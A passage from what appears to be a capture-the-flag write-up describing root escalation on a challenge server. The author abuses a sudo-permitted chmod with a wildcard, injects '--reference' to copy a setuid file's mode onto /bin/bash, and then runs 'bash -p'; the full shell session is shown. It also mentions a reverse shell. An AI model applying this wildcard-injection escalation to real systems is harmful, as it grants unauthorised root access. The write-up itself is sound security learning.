 Those wildcards were interesting. I could make anything group writable. I made `/root` group writable, but since I was not in the root group it did not give my anything. I tried to find files and folders that my group owned. I did not find anything that would give an escalation path if I modified it.

At some point I went YOLO and made everything on the server group writable. That was not a good idea. I got kicked out of SSH and was unable to reconnect. I know that SSH has some file permission checks, one of them probably did not like my changes. I was still able to get a reverse shell, but it would disconnect after a few seconds. I had to ask the challenge designer, [David Lebrun](https://www.linkedin.com/in/davidlebr1/) to reset the server for me.

Once I was able to get back on the server, I kept looking for ways to abuse that `chmod` with wildcards. I looked at [Hacktricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks#chown-chmod) and found a way to do it using `--reference`.

```bash
$ chmod --help    
Usage: chmod [OPTION]... MODE[,MODE]... FILE...
  or:  chmod [OPTION]... OCTAL-MODE FILE...
  or:  chmod [OPTION]... --reference=RFILE FILE...
Change the mode of each FILE to MODE.
With --reference, change the mode of each FILE to that of RFILE.

  -c, --changes          like verbose but report only when a change is made
  -f, --silent, --quiet  suppress most error messages
  -v, --verbose          output a diagnostic for every file processed
      --no-preserve-root  do not treat '/' specially (the default)
      --preserve-root    fail to operate recursively on '/'
      --reference=RFILE  use RFILE's mode instead of MODE values
  -R, --recursive        change files and directories recursively
      --help     display this help and exit
      --version  output version information and exit

Each MODE is of the form '[ugoa]*([-+=]([rwxXst]*|[ugo]))+|[-+=][0-7]+'.

GNU coreutils online help: <https://www.gnu.org/software/coreutils/>
Full documentation <https://www.gnu.org/software/coreutils/chmod>
or available locally via: info '(coreutils) chmod invocation'
```

This argument meant that the `g+w` part of the command would be ignored. `chmod` would look at the permissions from the reference file instead of what is provided in the command. I tried using the POC linked on Hacktricks, but it did not work.

I tried again without the script. I made sure that the file the script created had the `suid` bit set. They I copied those permissions to `bash`. Finally, I used bash to become root and read the last flag.

```bash
somaticadmin@ctn-dlebrun-somatic:/tmp$ ls -l pwn/.confrc 
-rwsrwxrwx 1 somaticadmin somaticadmin 0 May 19 17:06 pwn/.confrc

somaticadmin@ctn-dlebrun-somatic:/tmp$ ls -l /bin/bash
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /bin/bash

somaticadmin@ctn-dlebrun-somatic:/tmp$ sudo /bin/chmod -R g+w /tmp/pwn/* /bin/bash --reference=pwn/.confrc 
/bin/chmod: cannot access 'g+w': No such file or directory

somaticadmin@ctn-dlebrun-somatic:/tmp$ ls -l /bin/bash
-rwsrwxrwx 1 root root 1396520 Jan  6  2022 /bin/bash

somaticadmin@ctn-dlebrun-somatic:/tmp$ /bin/bash -p

bash-5.1# id
uid=1001(somaticadmin) gid=1001(somaticadmin) euid=0(root) groups=1001(somaticadmin)

```